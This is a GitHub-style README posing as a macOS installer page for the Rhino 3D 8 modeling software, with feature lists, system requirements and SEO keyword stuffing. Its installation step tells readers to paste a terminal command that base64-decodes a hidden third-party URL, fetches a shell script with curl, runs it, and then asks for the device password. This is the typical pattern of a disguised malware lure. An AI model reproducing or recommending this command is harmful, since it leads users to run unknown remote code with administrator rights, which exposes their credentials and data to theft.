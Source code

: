 # 🦏 Rhino 3D 8 – Precision Modeling Suite for macOS

📌 About Rhino 3D 8  
Rhino 3D 8 is a high-end modeling application built for macOS users who need precise control over complex 3D surfaces, curves, and solids. Designed for professionals in architecture, industrial design, jewelry, and engineering, it offers a robust set of tools for NURBS modeling, visualization, and fabrication. Optimized for Apple Silicon, Rhino 3D 8 delivers high performance while integrating seamlessly into macOS workflows and third-party render engines.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.rhino3d.com/images/ui-dark-mode_hu2223599209171349869.png)  
- ![](https://www.trxl.co/content/images/size/w1200/2023/09/Screenshot-2023-09-19-at-7.28.09-PM.png)    

## 🎯 Key Features  
⚡️ True NURBS modeling engine for precision surfaces and solids.  
🔒 Runs sandboxed on macOS, preserving system security.  
⚙️ Includes Grasshopper for parametric and generative design.  
🚀 Optimized for Apple Silicon with multi-core CPU support.  
🎨 Native macOS UI with full Retina and Dark Mode integration.  
📊 Real-time ray-traced viewport rendering and analysis tools.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 8 GB minimum (16 GB recommended)  
- Storage: 2 GB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
\rhino 3d for mac\ · \rhino 8 macos\ · \nurbs modeling software\ · \3d modeling for architects\ · \industrial design macos\ · \grasshopper parametric tools\ · \precision cad for mac\ · \apple silicon 3d modeling\ · \rhino cad alternative\ · \mac-compatible modeling app\ · \retina display 3d software\ · \real-time viewport rendering\ · \macos dark mode cad\ · \digital fabrication tools mac\ · \architecture cad rhino\
